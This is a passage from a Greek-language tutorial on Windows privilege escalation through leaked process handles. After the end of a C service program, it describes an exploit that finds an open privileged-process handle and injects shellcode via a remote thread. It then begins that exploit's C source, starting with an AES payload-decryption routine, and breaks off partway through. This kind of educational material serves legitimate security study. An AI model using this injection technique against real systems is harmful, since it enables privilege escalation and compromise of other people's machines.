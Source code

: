 ```c
if ( argc > 1 && lstrcmpi( argv[1], TEXT("install") ) == 0 ) {
InstallService();
}
else if ( argc > 1 && lstrcmpi( argv[1], TEXT("uninstall") ) == 0 ) {
UninstallService();
}
else  {
SERVICE_TABLE_ENTRY serviceTable[] = {
{ serviceName, ServiceMain },
{ 0, 0 }
};

StartServiceCtrlDispatcher( serviceTable );
}

return 0;
}
```
### Exploit Example 1

{% hint style="info" %}
Σε ένα πραγματικό σενάριο πιθανότατα **δεν θα μπορείτε να ελέγξετε το δυαδικό αρχείο** που πρόκειται να εκτελεστεί από τον ευάλωτο κώδικα (_C:\users\username\desktop\client.exe_ σε αυτή την περίπτωση). Πιθανότατα θα **συμβιβάσετε μια διαδικασία και θα χρειαστεί να δείτε αν μπορείτε να έχετε πρόσβαση σε οποιοδήποτε ευάλωτο handle οποιασδήποτε προνομιακής διαδικασίας**.
{% endhint %}

Σε αυτό το παράδειγμα μπορείτε να βρείτε τον κώδικα ενός πιθανότατα exploit για _C:\users\username\desktop\client.exe_.\
Το πιο ενδιαφέρον μέρος αυτού του κώδικα βρίσκεται στη `GetVulnProcHandle`. Αυτή η συνάρτηση θα **ξεκινήσει να ανακτά όλα τα handles**, στη συνέχεια θα **ελέγξει αν κάποιο από αυτά ανήκει στην ίδια PID** και αν το handle ανήκει σε μια **διαδικασία**. Εάν πληρούνται όλες αυτές οι απαιτήσεις (βρεθεί ένα προσβάσιμο ανοιχτό handle διαδικασίας), προσπαθεί να **εισάγει και να εκτελέσει ένα shellcode εκμεταλλευόμενο το handle της διαδικασίας**.\
Η εισαγωγή του shellcode γίνεται μέσα στη **`Inject`** συνάρτηση και θα **γράψει απλώς το shellcode μέσα στην προνομιακή διαδικασία και θα δημιουργήσει ένα νήμα μέσα στην ίδια διαδικασία** για να εκτελέσει το shellcode).
```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <wincrypt.h>
#include <psapi.h>
#include <tchar.h>
#include <tlhelp32.h>
#include "client.h"
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
HCRYPTPROV hProv;
HCRYPTHASH hHash;
HCRYPTKEY hKey;

if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
return -1;
}
if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
return -1;
```